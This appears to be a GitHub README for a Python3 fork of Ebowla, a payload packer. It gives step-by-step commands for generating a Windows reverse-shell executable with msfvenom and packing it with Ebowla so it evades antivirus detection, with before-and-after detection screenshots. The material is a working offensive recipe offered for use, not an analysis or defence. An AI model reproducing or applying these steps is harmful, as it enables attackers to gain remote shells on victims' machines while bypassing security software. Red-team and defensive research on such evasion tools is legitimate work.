 # 3 B O W L A
## Ebowla Fork to add Python3 Support
### we are in the very beginning here - so not everything works.

When using go as payload type, most of the functionality should be implemeted and function properly. We decided against rewriting the functionality needed to use python as payload type, as cross compiling python executables on linux only really works through the usage of pyinstaller in wine - which is quite a hassle and an ugly solution, especially considering that GO as payload type can almost take over everything that python could and we, ourselves, never had to use python for it. 

## How to use Ebowla

This part is taken from a writeup I did for Ebowla with python2. With the added python3 support, none of the steps following change, at least not for the output type EXE. If we have time, we will provide documentation adjusted to python3 and other functionality. 

### edit generic.config:

change:

payload_type = GO

output_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### creating payload

Here used as an example, a reverse shell made with mfsvenom:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### building executable with Ebowla

```python3 ebowla.py shell.exe genetic.config```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-47.png?token=ANDZTDZ4WQD7BAUW45VQUWK56NLHO)

The finished, packed executable can be found in the **output** folder.

### Results!

### without Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-50.png?token=ANDZTD3RLAGGH5XC3FN3A2S56NLMI)

### same executable with the use of Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-52.png?token=ANDZTD3BMQF7CAHDMEHEVZC56NLMQ)
